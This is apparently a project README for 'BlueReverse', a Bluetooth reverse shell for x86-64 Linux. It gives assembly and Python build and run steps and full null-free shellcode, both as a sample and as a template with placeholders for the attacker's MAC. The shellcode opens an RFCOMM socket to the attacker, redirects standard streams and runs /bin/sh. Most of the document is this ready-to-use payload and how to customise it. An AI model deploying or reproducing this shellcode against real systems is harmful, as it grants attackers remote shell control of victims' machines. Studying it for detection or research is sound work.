

BlueReverse
===========

Bluetooth reverse shell currently for x86-64 Linux system.<br/>


Copyright (C) 2018  Neetx

BlueReverse is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

BlueReverse is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>

### CONTACTS:
[Neetx](mailto:neetx@protonmail.com)

---

BlueReverse has been implemented as personal research and fun. I provide you .asm file (client side), .py 2.7 file (server side) and the shellcode.

You must fill .asm and .py with your mac and with your desired channel for the communication. Then:
```
nasm -f elf64 brev_shell.asm -o test.o
ld test.o -o test
```

Now you must start the server:
```
python bluereversehandler.py
```

And now you can launch test:
```
./test
```
You will get prompt on server side.
I tested the code with a rpi3 (server) and a Debian Stretch (client).

---

### Shellcode:

If you need shellcode you can use my tool ShellcodeExtractor (https://github.com/Neetx/Shellcode-Extractor)

```
objdump -D test.o | python shellcode_extractor.py
```

My output and lenght:
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\x9f\xea\xa3\x14\xd8\x47\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
82

You must do it by yourself because you have another MAC and maybe another channel.
If you don't use my tool or another tool/command you have to put your MAC manually after NOT operation, because of this in .asm:
```
mov rcx, ~0xXXXXXXXXXXXX001f		;mac + family(1f=31)
not rcx
```
(~ MAC + 00 (filler) + 1f (family))

00 is a nullbyte and to avoid it I use ~ , so the value after ~ is stored in the binary after a NOT operation and 00 become FF. Then i used "not rcx" to obtain the desired value.

Put your bluetooth MAC address here instead of \xXX\xXX\xXX\xXX\xXX\xXX, in little endian and after NOT operation:

\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\xXX\xXX\xXX\xXX\xXX\xXX\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05

### Test Shellcode:

Put your shellcode in the shellcode_tester.c, compile it and test. 

---

### Screenshot



